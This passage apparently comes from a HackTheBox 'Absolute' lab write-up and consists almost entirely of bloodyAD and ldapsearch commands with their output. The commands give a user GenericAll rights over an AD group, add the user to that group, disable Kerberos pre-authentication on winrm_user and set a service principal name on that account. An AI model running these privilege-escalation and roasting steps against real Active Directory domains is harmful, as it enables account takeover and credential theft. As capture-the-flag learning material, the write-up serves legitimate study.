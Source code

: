 


```bash
❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add genericAll 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod has now GenericAll on NETWORK AUDIT

❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```





```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "CN=NETWORK AUDIT,CN=Users,DC=absolute,DC=htb" member
SASL/GSSAPI authentication started
SASL username: svc_smb@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <CN=NETWORK AUDIT,CN=Users,DC=absolute,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# Network Audit, Users, absolute.htb
dn: CN=Network Audit,CN=Users,DC=absolute,DC=htb
member: CN=svc_audit,CN=Users,DC=absolute,DC=htb
member: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
```





<figure><img src="../../../.gitbook/assets/4010_vmware_d616E9qd34.png" alt=""><figcaption></figcaption></figure>





```bash
❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add uac 'winrm_user' -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to winrm_user's userAccountControl

❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k set object 'winrm_user' servicePrincipalName -v "cifs/gzzcoo"
[+] winrm_user's servicePrincipalName has been updated
```
